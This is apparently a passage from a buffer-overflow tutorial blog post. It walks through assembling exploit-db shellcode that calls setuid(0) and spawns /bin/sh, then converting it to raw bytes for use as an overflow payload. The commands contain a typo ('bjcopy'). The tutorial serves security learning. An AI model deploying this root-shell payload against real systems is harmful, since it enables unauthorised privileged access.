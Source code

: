 Before we going to dive into the first code, on the follows examples we going to use some shellcode, so we will create buffer overflow and run our malicious code so we should get back new shell from our execution.

The following shell code I found over exploit db, which is 13333.txt:
```
https://github.com/blackorbird/exploit-database/blob/master/shellcodes/lin_x86/13333.txt
```

First we going to compile that code and make some binary files of it, after that we will create hex values so we can use it as the malicious part on our buffer overflow.

The original code look like the following:
```
;shellcode.asm
global _start
section .text
_start:
  ;setuid(0)
  xor ebx,ebx
  lea eax,[ebx+17h]
  cdq
  int 80h
  ;execve("/bin/sh",0,0)
  xor ecx,ecx
  push ecx
  push 0x68732f6e
  push 0x69622f2f
  lea eax,[ecx+0Bh]
  mov ebx,esp
  int 80h
```

That code should be save as shellcode.asm, then we use the following code for change it's format to elf file so we can make it as binary file:
```
nasm -f elf32 -o shellcode.o shellcode.asm
```

Now, we going to links the object file "shellcode.o" into an executable binary named "shellcode" using the GNU Linker. The resulting binary is a 32-bit ELF executable that can be executed on a compatible system.
```
ld -m elf_i386 -o shellcode shellcode.o
```

We can check now it if work and give us new shell on our terminal:  
![shell01](../assets/images/2025-04-25-buffer-flow-basic/shell01.webp)  
**Figure 4** New shell on our terminal.

Now, we want to convert that binary to hex value so we can use it on   the buffer overflow example here. We going to use the command objcopy to extract the binary content of the *.text* section from the input file "shellcode" and saves it into a new file named "shellcode.bin". This is often done to extract the raw machine code (binary) from an executable or object file, which can be useful for various purposes such as embedding in other programs or systems.
```
bjcopy -O binary -j .text shellcode shellcode.bin
```
